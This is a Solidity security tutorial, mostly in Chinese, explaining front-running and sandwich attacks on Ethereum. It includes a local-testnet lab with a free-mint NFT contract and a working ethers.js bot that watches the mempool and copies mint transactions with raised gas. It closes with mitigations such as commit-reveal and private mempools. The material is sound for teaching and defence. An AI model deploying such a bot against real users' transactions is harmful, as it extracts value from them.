 ```yaml
---
title: S11. 抢先交易
tags:
  - solidity
  - security
  - erc721
---
```


# WTF Solidity 合约安全: S11. 抢先交易

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@yzhxxyz](https://twitter.com/yzhxxyz)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

![](./img/S11-1.png)

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。

![](./img/S11-2.png)

**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。

![](./img/S11-3.png)


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。
![](./img/S11-4.png)

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
